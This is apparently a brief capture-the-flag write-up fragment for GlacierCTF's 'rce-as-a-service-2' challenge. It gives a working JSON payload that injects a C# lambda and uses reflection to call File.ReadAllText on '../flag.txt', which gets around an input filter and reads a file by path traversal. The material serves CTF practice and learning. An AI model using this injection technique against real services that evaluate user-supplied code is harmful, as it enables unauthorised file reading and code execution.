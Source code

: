 URL: https://rce-as-a-service-2.ctf.glacierctf.com

successful payload without using whitespace trick:
{
  "Data": ["System.IO.File"],
  "Query" : "(data) => data.Select(d => {Type type = Type.GetType(d);System.Reflection.MethodInfo theMethod = type.GetMethod(\"ReadAllText\", new Type[] { typeof(String) });return theMethod.Invoke(null, new object[]{\"../flag.txt\"});})"
}
